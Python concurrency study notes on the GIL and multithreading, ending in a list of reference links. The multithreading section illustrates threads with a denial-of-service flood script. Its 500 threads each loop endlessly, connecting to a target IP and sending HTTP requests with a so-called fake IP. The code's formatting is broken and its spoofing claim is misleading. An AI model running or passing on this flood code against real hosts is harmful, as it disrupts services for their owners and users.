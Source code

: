 # Concurrency

## Global Interpreter Lock (GIL)

GIL is a mutex that protects access to Python objects, preventing multiple threads from executing Python bytecodes at once. This lock is necessary mainly because CPython's memory management is not thread-safe.

This essentially means that a process can run only one thread at a time. When a thread starts running, it acquires GIL and **when it waits for I/O, it releases the GIL, so that other threads of that process can run.**

Solution - Run multiple Python instances

## MultiThreading

```python
import threading

import socket

target = '10.0.0.138'

port = 80

fake_ip = '182.21.20.32'

def attack():

while True:

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect((target, port))

s.sendto(("GET /" + target + " HTTP/1.1rn").encode('ascii'), (target, port))

s.sendto(("Host: " + fake_ip + " rnrn").encode('ascii'), (target, port))

s.close()

for i in range(500):

thread = threading.Thread(target=attack)

thread.start()
```

https://bovage.hashnode.dev/what-exactly-is-multithreading

## Links

- https://wiki.python.org/moin/GlobalInterpreterLock
- https://pybay.com/site_media/slides/raymond2017-keynote/index.html
- [Raymond Hettinger, Keynote on Concurrency, PyBay 2017](https://www.youtube.com/watch?v=9zinZmE3Ogk&index=2&list=WL&t=0s)
- https://realpython.com/python-concurrency
- https://www.toptal.com/python/beginners-guide-to-concurrency-and-parallelism-in-python
- https://www.tutorialspoint.com/concurrency_in_python/index.htm
- [**Tutorial: Santiago Basulto - Python Concurrency: from beginner to pro**](https://www.youtube.com/watch?v=18B1pznaU1o)
- [Back to Basics: Concurrency](https://youtu.be/5pYKAoD3Apk) - C++
